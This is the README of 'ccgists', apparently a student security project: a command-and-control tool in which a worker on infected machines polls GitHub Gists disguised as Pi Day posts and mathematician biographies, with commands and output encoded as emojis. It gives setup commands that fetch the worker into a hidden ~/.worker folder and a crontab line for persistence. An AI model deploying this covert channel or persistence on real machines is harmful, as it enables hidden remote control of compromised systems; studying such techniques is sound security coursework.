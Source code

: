 <a name="readme-top"></a>

[![Stargazers][stars-shield]][stars-url]
[![MIT License][license-shield]][license-url]
[![LinkedIn][linkedin-shield]][linkedin-url]

<!-- PROJECT LOGO -->
<br />
<div align="center">
  <a href="https://github.com/andrsdt/ccgists">
    <img src="https://i.imgur.com/ZoJzgg1.png" alt="Logo" width="" height="80">
  </a>

</div>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#about-the-project">About The Project</a>
    </li>
    <li>
      <a href="#getting-started">Getting Started</a>
      <ul>
        <li><a href="#installation">Installation</a></li>
      </ul>
    </li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#license">License</a></li>
    <li><a href="#contact">Contact</a></li>
  </ol>
</details>

<!-- ABOUT THE PROJECT -->

## About The Project

This repository contains the code for the **ccgists** project, which is composed of two independent projects:

- `controller`: a Python script that allows for centralized management of the C2 infrastructure. It allows the attacker to see the list of available agents, send commands to them and read the output of the commands.
- `worker`: a Python script that runs periodically on the infected machine and communicates with the controller to inform about its state. In case of pending commands, it executes them and sends the output back to the controller.

The communication is done entirely through GitHub Gists. There is a gist disguised as **a celebration for the Pi Day**, where infected computers will post their status. When the attacker sends a command to an infected machine, it creates a gist disguised as **a mathematician's biography** that will be used as a thread for that communication. Commands and outputs with that machine will be encoded as emojis.

<!-- GETTING STARTED -->

## Getting Started

We will first set up the infected machines, and then the controller.

For both machines, we will use a GitHub personal access token to authenticate the requests. This token will be used to do operations with gists, which will be the only communication channel between the infected machines and the controller. A token for my account can be found in the report in Google Docs for the subject, but note that it will create private gists on my account that won't be visible from the professor's account. It's better to provide your own token, you can create one in the [GitHub settings](https://github.com/settings/tokens?type=beta). Only the scope for managing gists is required.

### Installation

#### Infected machines

1. Download and unzip the latest release from the [releases page](https://github.com/andrsdt/ccgists/releases)

```sh
wget -q https://github.com/andrsdt/ccgists/releases/download/v1.0.0/worker.tar.gz
mkdir ~/.worker; tar -xf worker.tar.gz -C ~/.worker; rm worker.tar.gz
cd .worker
```

2. Create a virtual environment

```sh
python3 -m venv .venv
source .venv/bin/activate
```

3. Install the dependencies

```sh
pip install -r requirements.txt
```

4. Create the `.env` file with the GitHub Token

```sh
echo "GITHUB_TOKEN=<secret_token>" > .env
```

5. Run the worker

```sh
python3 ./dist/main.py
```

The script can be run with `python3 ./worker/dist/main.py` and it will do its routine tasks when executed. It can be scheduled to run periodically (for example, every 5 minutes) with `crontab` by running the following bash command:

```sh
crontab -l | { cat; echo "*/5 * * * * $HOME/.worker/.venv/bin/python3 $HOME/.worker/dist/main.py"; } | crontab -
```

#### Controller

The controller's entry point is a Python script in `controller/src/main.py`. The setup is similar to the script for infected machines:

1. Download and unzip the latest release from the [releases page](https://github.com/andrsdt/ccgists/releases)

```sh
wget https://github.com/andrsdt/ccgists/releases/download/v1.0.0/controller.tar.gz
mkdir ccgists; tar -xf controller.tar.gz -C ccgists
cd ccgists
```

2. Create a virtual environment

```sh
python3 -m venv .venv
source .venv/bin/activate
```

3. Install the dependencies

```sh
pip install -r requirements.txt
```

4. Create the `.env` file with the GitHub Token

```sh
echo "GITHUB_TOKEN=<secret_token>" > .env
```

5. Run the controller

```sh
python3 ./src/main.py
```

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- USAGE EXAMPLES -->

## Usage

The script is intuitive to use, and it will show a menu with the available options. The menu will show the available agents, and the user can select one of them to send commands to it. These will be processed as soon as the infected machine runs the script again.

![](https://i.imgur.com/JSsuHea.gif)

_For any doubt in the usage, do not hesitate to contact me_

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- LICENSE -->

## License

Distributed under the MIT License. See `LICENSE.txt` for more information.

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- CONTACT -->

## Contact

Andrés Durán - [@andresdt](https://twitter.com/andresdt) - [andrez#0077](https://discord.com) - duranand@fit.cvut.cz

Project Link: [https://github.com/andrsdt/ccgists](https://github.com/andrsdt/ccgists)

<p align="right">(<a href="#readme-top">back to top</a>)</p>

<!-- MARKDOWN LINKS & IMAGES -->
<!-- https://www.markdownguide.org/basic-syntax/#reference-style-links -->

[stars-shield]: https://img.shields.io/github/stars/othneildrew/Best-README-Template.svg?style=for-the-badge
[stars-url]: https://github.com/andrsdt/ccgists/stargazers
[license-shield]: https://img.shields.io/github/license/othneildrew/Best-README-Template.svg?style=for-the-badge
[license-url]: https://github.com/andrsdt/ccgists/blob/master/LICENSE.txt
[linkedin-shield]: https://img.shields.io/badge/-LinkedIn-black.svg?style=for-the-badge&logo=linkedin&colorB=555
[linkedin-url]: https://linkedin.com/in/andrsdt

